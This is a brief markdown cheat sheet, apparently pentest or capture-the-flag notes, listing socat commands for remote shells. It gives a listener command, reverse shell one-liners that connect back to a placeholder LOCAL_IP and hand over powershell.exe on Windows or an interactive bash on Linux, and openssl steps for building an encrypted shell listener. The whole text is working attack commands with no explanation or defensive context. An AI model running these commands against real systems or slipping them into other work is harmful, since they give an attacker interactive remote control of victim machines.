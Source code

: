 # SOCAT

### Setup listener: 

    socat TCP-L:PORT -

### Windows: 

    socat TCP:LOCAL_IP:LOCAL_PORT EXEC:powershell.exe,pipes

### Linux: 

    socat TCP:LOCAL_IP:LOCAL_PORT EXEC:"bash -li"

## Encrypted shells

### 1) 

    openssl req --newkey rsa:2048 -nodes -keyout SHELL.KEY -x509 -days 362 -out SHELL.CRT

### 2) 

    cat SHELL.KEY SHELL.CRT > SHELL.PEM

### 3) 

    socat OPENSSL-LISTEN:PORT,cert=SHELL.PEM,verify=0 -
